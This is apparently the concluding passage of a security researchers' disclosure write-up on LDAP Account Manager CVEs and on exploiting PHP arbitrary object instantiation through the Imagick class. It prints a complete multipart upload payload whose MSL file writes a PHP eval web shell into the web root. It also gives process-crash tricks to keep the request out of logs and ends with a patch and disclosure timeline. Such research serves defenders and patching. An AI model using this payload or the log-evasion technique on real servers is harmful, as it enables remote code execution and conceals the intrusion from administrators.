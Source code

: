 Here is the final payload for exploiting Arbitrary Object Instantiations:

Class Name: Imagick
Argument Value: vid:msl:/tmp/php*

-- Request Data --
Content-Type: multipart/form-data; boundary=ABC
Content-Length: ...
Connection: close
 
--ABC
Content-Disposition: form-data; name="swarm"; filename="swarm.msl"
Content-Type: text/plain
 
<?xml version="1.0" encoding="UTF-8"?>
<image>
 <read filename="caption:&lt;?php @eval(@$_REQUEST['a']); ?&gt;" />
 
 <write filename="info:/var/www/swarm.php" />
</image>
--ABC--

It should work on every system on which the Imagick extension is installed, and it can be used in deserializations if you find a suitable gadget.

When the PHP runtime is libapache2-mod-php, you can prevent logging of this request by uploading a web shell and crashing the process at the same time:

Argument Value: ["vid:msl:/tmp/php*", "text:fd:30"]

Since the construction text:fd:30 doesn’t work on the latest ImageMagick, here is another one:

Crash Construction: str_repeat("vid:", 400)

This one works on every ImageMagick below 7.1.0-40 (released on July 4, 2022).

In installations like Nginx + PHP-FPM, the request wouldn’t disappear from Nginx’s logs, but it should not be written to PHP-FPM logs.
Afterword

Our team would like to say thank you to Roland Gruber, the developer of LAM, for the quick response and the patch, and to all researchers who previously looked at ImageMagick and shared their findings.

Timeline:

    16 June, 2022 — Reported to Roland Gruber
    16 June, 2022 — Initial reply from Roland Gruber
    27 June, 2022 — LAM 8.0 is released
    27 June, 2022 — CVE-2022-31084, CVE-2022-31085, CVE-2022-31086, CVE-2022-31087, CVE-2022-31088 are issued
    29 June, 2022 — LAM 8.0.1 is released, additional hardening has been done
    05 July, 2022 — Debian packages are updated
    14 July, 2022 — Public disclosure

Additionally, in case of exploitation of Arbitrary Object Instantiations with an injection to a constructor with two parameters, there is a public vector for this (in Russian). If you have three, four, or five parameters, you can use the SimpleXMLElement class and enable external entities.

Feel free to comment on this article on our Twitter. Follow @ptswarm or @_mohemiv so you don’t miss our future research and other publications.
